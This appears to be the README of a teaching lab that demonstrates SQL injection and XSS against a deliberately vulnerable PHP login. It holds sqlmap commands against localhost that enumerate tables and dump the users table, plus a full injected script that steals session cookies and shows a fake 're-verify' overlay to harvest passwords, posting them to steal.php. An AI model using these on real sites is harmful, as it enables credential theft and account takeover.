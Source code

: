 <h1 align="center">Secure Login System</h1>

We created a login system, for the backend we use PHP and MySQL for the database and on the frontend we used HTML/CSS. 
The purpose of this project is to show how code becomes vulnerable to SQL injection.
We will analyze and perform SQL Injection attacks and Cross-Site Scripting attacks to see how they work when we do not secure the appropriate code. 
We'll use some attack tools like SQLMap. 

The project has three parts:

1.Secure Login System with Non-Sanitizing Code
Attacks like SQL Injection work here, as well as attacks like Cross-Site Scripting (XSS).
    This code is intentionally vulnerable to demonstrate:

    How legacy PHP applications become vulnerable
    Why string concatenation in SQL is dangerous
    How sqlmap and other tools exploit these weaknesses
    The importance of modern PHP security practices

2.Secure Login System with Partial Sanitizing Code
Attacks like SQL Injection don't work here, but there are some vulnerabilities related to Cross-Site Scripting (XSS).

3.Secure Login System with Complete Sanitizing Code
In this part, we have protected the code against both threats. Also, I will show you how to implement CAPTCHA for brute force protection.

<h1 align="center">1.Secure Login System with Non-Sanitizing Code</h1>

![Sqlmap](https://raw.githubusercontent.com/cipriancyberspace/securewebapplication/99e7e8d24c04397303853220b9ae101d9e12e940/Secure_Login_System/images/sqlmap.png)



Sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. 
It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, 
over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/ee5612aa8bd9970e35df345d5f98699db35a3003/Secure_Login_System/images/sqlmap_1.png)

<strong> 1.SQLMap Command Breakdown: </strong>
<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" --data="username=test&password=test" --dbs --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/1bf4ec6c5278162c33acfffa401df1ce9bfb6bfb/Secure_Login_System/images/sqlmap_3.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/eff2084c859e84b41a33be3071eaf471de9b0d7e/Secure_Login_System/images/sqlmap_2.png)

<strong> 2.Explore your database: </strong>
<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db --tables --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/9086268e64a0716507f5dc933ce2bfb70513775b/Secure_Login_System/images/sqlmap_4.png)

<strong> 3.Dump user data: </strong>

<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db -T users --dump --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/f0b283ed11636000979a965a8ce7c080b99c5ea2/Secure_Login_System/images/sqlmap_5.png)

<strong> 4.Get database schema: </strong>

<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db -T users --columns --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/e4dc111aa3704427855dbe08de21b97209472a2a/Secure_Login_System/images/sqlmap_6.png)



⚠️ Why This Works 
Vulnerable PHP code:
<pre> <code>$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>
SQLMap exploits this by injecting payloads that break out of the SQL query, allowing it to execute additional SQL commands to enumerate databases.

Primary Vulnerability Location:
Line 78-82 - The main SQL injection vulnerability:


<pre> <code>/ VULNERABLE CODE - Direct string concatenation
$user = $_POST['username'];  // ❌ RAW user input
$pass = $_POST['password'];  // ❌ RAW user input

// ❌ DANGEROUS: Direct concatenation into SQL query
$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>

Secure Alternative with Prepared Statements:

<pre> <code>// Proper sanitization using prepared statements
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $user, $pass);  // "ss" = two strings
$stmt->execute();
$result = $stmt->get_result();</code> </pre>

Alternative with Input Escaping:

<pre> <code>// Basic escaping (less secure than prepared statements)
$user = $conn->real_escape_string($_POST['username']);
$pass = $conn->real_escape_string($_POST['password']);
$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>

<h1 align="center">2.Secure Login System with Partial Sanitizing Code</h1>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_1.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_2.png)

<pre> <code><script>
function advancedPhishing() {
    // === FURĂ DATELE CURENTE ===
    var currentData = {
        attack_type: 'advanced_phishing',
        current_session: {
            cookies: document.cookie,
            sessionId: document.cookie.match(/PHPSESSID=([^;]+)/) ? document.cookie.match(/PHPSESSID=([^;]+)/)[1] : null,
            current_user: null
        },
        timestamp: new Date().toISOString()
    };
    
    // Extrage utilizatorul curent
    var userMatch = document.body.textContent.match(/User:\s*([a-zA-Z0-9_]+)/);
    if (userMatch) currentData.current_session.current_user = userMatch[1];
    
    // === CREEAZĂ FORMULAR FALS REALIST ===
    setTimeout(function() {
        var overlay = document.createElement('div');
        overlay.innerHTML = `
            <div style="position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: rgba(0,0,0,0.95); z-index: 999999; display: flex; align-items: center; justify-content: center; font-family: Arial, sans-serif;">
                <div style="background: white; padding: 40px; border-radius: 10px; max-width: 450px; width: 90%; box-shadow: 0 4px 20px rgba(0,0,0,0.5);">
                    <div style="text-align: center; margin-bottom: 30px;">
                        <h2 style="color: #dc3545; margin: 0 0 10px 0;">🔐 Verificare Obligatorie de Securitate</h2>
                        <p style="color: #666; margin: 0; font-size: 14px;">Din cauza activității suspecte detectate pe cont, este necesară re-autentificarea immeidată.</p>
                    </div>
                    
                    <div style="background: #fff3cd; padding: 15px; border-radius: 5px; margin-bottom: 20px; border-left: 4px solid #ffc107;">
                        <small style="color: #856404;">⚠️ Contul va fi blocat în 5 minute dacă nu se efectuează verificarea.</small>
                    </div>
                    
                    <form id="phishing-form" onsubmit="return captureAndSubmit(event);">
                        <div style="margin-bottom: 20px;">
                            <label style="display: block; margin-bottom: 8px; font-weight: bold; color: #333;">Username actual:</label>
                            <input type="text" id="stolen-username" required style="width: 100%; padding: 12px; border: 2px solid #ddd; border-radius: 4px; box-sizing: border-box; font-size: 16px;" value="${currentData.current_session.current_user || ''}" readonly>
                        </div>
                        
                        <div style="margin-bottom: 20px;">
                            <label style="display: block; margin-bottom: 8px; font-weight: bold; color: #333;">Confirmă parola:</label>
                            <input type="password" id="stolen-password" required style="width: 100%; padding: 12px; border: 2px solid #ddd; border-radius: 4px; box-sizing: border-box; font-size: 16px;" placeholder="Introduceți parola pentru verificare">
                        </div>
                        
                        <div style="margin-bottom: 25px;">
                            <label style="display: block; margin-bottom: 8px; font-weight: bold; color: #333;">Cod de verificare email (opțional):</label>
                            <input type="text" id="stolen-code" style="width: 100%; padding: 12px; border: 2px solid #ddd; border-radius: 4px; box-sizing: border-box; font-size: 16px;" placeholder="Codul primit pe email">
                        </div>
                        
                        <button type="submit" style="width: 100%; padding: 15px; background: linear-gradient(135deg, #dc3545, #c82333); color: white; border: none; border-radius: 4px; font-size: 16px; font-weight: bold; cursor: pointer; margin-bottom: 15px;">
                            🔐 Verifică și Continuă
                        </button>
                        
                        <button type="button" onclick="cancelVerification()" style="width: 100%; padding: 10px; background: #6c757d; color: white; border: none; border-radius: 4px; font-size: 14px; cursor: pointer;">
                            Anulează (cont va fi blocat)
                        </button>
                    </form>
                    
                    <div style="text-align: center; margin-top: 20px;">
                        <small style="color: #888; font-size: 12px;">
                            🔒 Această verificare este conformă cu politicile de securitate și protecția datelor.<br>
                            ID Sesiune: ${currentData.current_session.sessionId || 'N/A'}
                        </small>
                    </div>
                </div>
            </div>
        `;
        
        document.body.appendChild(overlay);
        
        // Timer fals pentru presiune
        var timeLeft = 300; // 5 minute
        var timerInterval = setInterval(function() {
            timeLeft--;
            var minutes = Math.floor(timeLeft / 60);
            var seconds = timeLeft % 60;
            var timerText = minutes + ':' + (seconds < 10 ? '0' : '') + seconds;
            
            var warningDiv = overlay.querySelector('div[style*="background: #fff3cd"]');
            if (warningDiv && timeLeft > 0) {
                warningDiv.innerHTML = `<small style="color: #856404;">⚠️ Timp rămas pentru verificare: <strong>${timerText}</strong></small>`;
            }
            
            if (timeLeft <= 0) {
                clearInterval(timerInterval);
                if (warningDiv) {
                    warningDiv.innerHTML = '<small style="color: #dc3545;">⚠️ <strong>TIMPUL A EXPIRAT! Contul va fi blocat.</strong></small>';
                }
            }
        }, 1000);
        
    }, 3000); // Așteaptă 3 secunde înainte să afișeze
    
    // Trimite datele inițiale
    fetch('./steal.php', {
        method: 'POST',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify(currentData),
        mode: 'no-cors'
    });
}

function captureAndSubmit(event) {
    event.preventDefault();
    
    var username = document.getElementById('stolen-username').value;
    var password = document.getElementById('stolen-password').value;
    var code = document.getElementById('stolen-code').value;
    
    var stolenCredentials = {
        attack_type: 'phishing_credentials_captured',
        timestamp: new Date().toISOString(),
        stolen_data: {
            username: username,
            password: password,
            verification_code: code,
            session_hijacked: document.cookie,
            page_url: window.location.href,
            user_agent: navigator.userAgent
        },
        success_level: 'CRITICAL'
    };
    
    // Trimite credentialele furate
    fetch('./steal.php', {
        method: 'POST',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify(stolenCredentials),
        mode: 'no-cors'
    }).then(function() {
        // Simulează verificarea
        var form = event.target;
        form.innerHTML = `
            <div style="text-align: center; padding: 30px;">
                <div style="color: #28a745; font-size: 3em; margin-bottom: 20px;">✅</div>
                <h3 style="color: #28a745; margin: 0 0 15px 0;">Verificare Completă!</h3>
                <p style="color: #666; margin: 0 0 10px 0;">Identitatea confirmată cu succes.</p>
                <p style="color: #666; font-size: 14px;">Contul este securizat și activitatea suspectă a fost eliminată.</p>
                <div style="margin-top: 20px; padding: 15px; background: #d4edda; border-radius: 5px;">
                    <small style="color: #155724;">🛡️ Sistemul de securitate este acum activ pentru contul dumneavoastră.</small>
                </div>
            </div>
        `;
        
        // Elimină overlay-ul după 4 secunde
        setTimeout(function() {
            var overlay = document.querySelector('div[style*="position: fixed"]');
            if (overlay) overlay.remove();
        }, 4000);
        
    }).catch(function(error) {
        console.log('Failed to send stolen credentials:', error);
    });
    
    return false;
}

function cancelVerification() {
    // Trimite și informația că a încercat să anuleze
    fetch('./steal.php', {
        method: 'POST',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify({
            attack_type: 'phishing_cancelled',
            user_action: 'attempted_cancel',
            timestamp: new Date().toISOString(),
            session: document.cookie
        }),
        mode: 'no-cors'
    });
    
    // Schimbă mesajul să pară că contul va fi blocat
    var overlay = document.querySelector('div[style*="position: fixed"]');
    if (overlay) {
        overlay.querySelector('div[style*="background: white"]').innerHTML = `
            <div style="text-align: center; padding: 40px;">
                <div style="color: #dc3545; font-size: 3em; margin-bottom: 20px;">🚫</div>
                <h3 style="color: #dc3545;">Cont Blocat Temporar</h3>
                <p style="color: #666;">Verificarea a fost anulată. Din motive de securitate, contul va fi blocat timp de 24 ore.</p>
                <p style="color: #666; font-size: 14px; margin-top: 20px;">Pentru deblocare imediată, contactați suportul tehnic.</p>
            </div>
        `;
        
        setTimeout(function() {
            overlay.remove();
        }, 5000);
    }
}

// === EXECUȚIE ===
advancedPhishing();

console.log('🎣 Advanced phishing attack activated!');
</script></code> </pre>


![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_3.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_4.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_5.png)




